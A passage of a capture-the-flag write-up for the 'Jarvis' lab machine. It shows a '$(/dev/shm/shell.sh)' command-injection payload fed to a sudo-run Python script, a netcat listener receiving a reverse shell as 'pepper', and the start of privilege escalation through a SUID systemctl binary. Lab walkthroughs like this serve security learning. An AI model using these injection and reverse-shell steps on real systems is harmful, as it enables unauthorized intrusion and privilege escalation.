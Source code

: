 I can execute the script by injecting the following payload in `simpler.py`:

```
www-data@jarvis:~$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

Enter an IP: $(/dev/shm/shell.sh)
$(/dev/shm/shell.sh)
```

I now have a shell as `pepper`:

```
# nc -lvnp 5555
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::5555
Ncat: Listening on 0.0.0.0:5555
Ncat: Connection from 10.10.10.143.
Ncat: Connection from 10.10.10.143:38924.
id
uid=1000(pepper) gid=1000(pepper) groups=1000(pepper)
python -c 'import pty;pty.spawn("/bin/bash")'
pepper@jarvis:/var/www$ cd
cd
pepper@jarvis:~$ ls
ls
Web  user.txt
pepper@jarvis:~$ cat user.txt
2afa36c...
```

### Privesc

Looking at SUID binaries, the `systemctl` program stands out since it's not normally SUID:

```
pepper@jarvis:~$ find / -perm /4000 2>/dev/null
[...]
/bin/systemctl
[...]
```

The group has been changed to `pepper` so this is likely our next target:

```
pepper@jarvis:~$ ls -l /bin/systemctl
-rwsr-x--- 1 root pepper 174520 Feb 17 03:22 /bin/systemctl
```
